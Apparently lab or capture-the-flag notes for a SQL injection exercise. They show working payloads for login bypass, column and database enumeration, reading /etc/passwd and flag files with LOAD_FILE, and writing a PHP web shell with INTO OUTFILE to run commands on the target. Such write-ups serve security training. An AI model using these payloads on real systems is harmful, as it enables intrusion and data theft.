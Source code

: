 # LAB

## By-pass authentication
admin' or '1'='1'-- -


## Recon of number of columns
' order by 1-- 
' order by 2-- 
...
' order by 4-- 
' order by 5-- 
' order by 6-- 

Unknown column '6' in 'order clause'

The table has 5 columns

## Recon of databases info
cn' UNION select 1,@@version,3,4,5-- 

10.3.22-MariaDB-1ubuntu1

cn' UNION select 1,user(),3,4,5-- 
root@localhost

## Check privileges

cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -

Y

--> Which means YES

## Get files

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -


Name
Month
Amount
Tax
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin postgres:x:101:103:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false

cn' UNION SELECT 1, LOAD_FILE("/root/flag.txt"), 3, 4, 5-- -

## Inject shell

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -

http://83.136.251.235:49375/dashboard/shell.php?0=pwd
/var/www/html/dashboard

## Get flag using shell

http://83.136.251.235:49375/dashboard/shell.php?0=cat%20%2Froot%2Fflag.txt

http://83.136.251.235:49375/dashboard/shell.php?0=ls%20-l%20%2Froot%2F

ls%20%2F

bin boot dev etc flag_cae1dadcd174.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var

http://83.136.251.235:49375/dashboard/shell.php?0=cat%20%2Fflag_cae1dadcd174.txt
528d6d9cedc2c7aab146ef226e918396

## Other solution to get flag by requesting the file

' UNION SELECT 1,LOAD_FILE("/flag_cae1dadcd174.txt"),3,4,5-- -

